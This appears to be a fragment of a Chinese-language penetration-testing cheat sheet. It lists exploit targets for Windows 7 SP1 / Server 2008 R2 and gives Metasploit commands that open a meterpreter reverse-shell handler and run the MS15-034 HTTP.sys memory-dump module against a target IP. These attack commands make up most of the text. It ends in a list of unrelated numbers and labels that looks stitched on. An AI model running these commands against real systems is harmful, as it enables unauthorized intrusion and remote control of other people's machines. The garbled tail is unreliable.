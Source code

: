 ```bash
   0   Automatic targeting via fingerprinting
   1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
   2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)
   3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 14)
   4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15)
   5   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)
   6   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V)
   7   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - AWS)

```


**Metasploit反弹shell**
```bash
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set LHOST
set LPORT
exploit -j  # 后台执行
```

**ms15-034**
```bash
use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
set rhost ip
run
```





demo
manager
1828
5643
3403
1635
1649
1660
1663
1667
1756
1918
L067
L1172
L1180
L1182
L1210
L122
L123
L125
L1509
L1512
L1591
L1600
L1626



